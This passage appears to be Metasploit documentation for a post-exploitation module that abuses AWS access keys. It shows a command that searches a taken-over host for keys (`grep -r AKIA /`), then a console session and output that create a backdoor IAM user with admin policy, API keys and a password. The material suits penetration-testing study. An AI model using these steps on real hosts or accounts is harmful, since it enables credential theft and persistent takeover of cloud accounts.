 ## Abusing API Access Keys

In the case that the host we have taken over has no instance profile or does not
have the required privileges, we can search the host for access keys with
something like `grep -r AKIA /`. These keys may have admin privileges at which
point you own the account, if not we may be able to escalate privileges.
We can set `AccessKeyId`, `SecretAccessKey`, & `Token` (optional) and rerun
the exploit to test this possibility.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set AccessKeyId AKIAAKIAAKIAAKIAAKIA
AccessKeyId => AKIAAKIAAKIAAKIAAKIA
msf post(aws_create_iam_user) > set SecretAccessKey jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
SecretAccessKey => jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > run

[*] 169.254.169.254 - looking for creds...
[*] Creating user: bZWsmzyupDWxe8CT
[*] Creating group: bZWsmzyupDWxe8CT
[*] Creating group policy: bZWsmzyupDWxe8CT
[*] Adding user (bZWsmzyupDWxe8CT) to group: bZWsmzyupDWxe8CT
[*] Creating API Keys for bZWsmzyupDWxe8CT
[*] Creating password for bZWsmzyupDWxe8CT
AWS Account Information
=======================

UserName          GroupName         SecretAccessKey                           AccessKeyId           Password          AccountId
--------          ---------         ---------------                           -----------           --------          ---------
bZWsmzyupDWxe8CT  bZWsmzyupDWxe8CT  74FXOTagsYCzxz0pjPOmnsASewj4Dq/JzH3Q24qj  AKIAJ6IVXYRUQAXU625A  bZWsmzyupDWxe8CT  xxxxx

[+] AWS CLI/SDK etc can be accessed by configuring with the above listed values
[+] AWS console URL https://xxxxx.signin.aws.amazon.com/console may be used to access this account
[+] AWS loot stored at: /Users/yyyy/.msf4/loot/20161208141050_default_172.30.0.116_AWScredentials_636339.txt
[*] Post module execution completed
```

## Next Steps

Information necessary to use the created account is printed to the screen and stored in loot:

```
$ cat ~/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
{
  "UserName": "As56ekIV59OgoFOj",
  "GroupName": "As56ekIV59OgoFOj",
  "SecretAccessKey": "/DcYUf9veCFQF3Qcoi1eyVzptMkVTeBm5scQ9bdD",
  "AccessKeyId": "AKIAIVNMYXYBXYE7VCHQ",
  "Password": "As56ekIV59OgoFOj",
  "AccountId": "xxx"
```
